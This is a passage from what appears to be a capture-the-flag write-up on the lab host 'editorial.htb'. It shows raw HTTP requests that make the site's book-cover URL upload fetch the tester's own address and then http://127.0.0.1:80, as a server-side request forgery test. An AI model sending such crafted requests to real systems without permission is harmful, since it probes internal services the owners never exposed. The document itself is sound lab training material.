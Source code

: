 ```

http://10.10.14.28
-----------------------------99436376716932414921333551657
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------99436376716932414921333551657--

```

### Request Recieved

The download functionality is actually implemented and working correctly as seen in the below screenshot. 

![18d269e8a3a5d33479e66c995e06ab1b.png](/assets/img/18d269e8a3a5d33479e66c995e06ab1b.png)

# SSRF Test #1 

Now I know its working as expected the next step will check for SSRF. Nginx is active on port 80 so it will be used as a test. 

### Request in Full

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------72263533922933545642529569388
Content-Length: 359
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:80
```
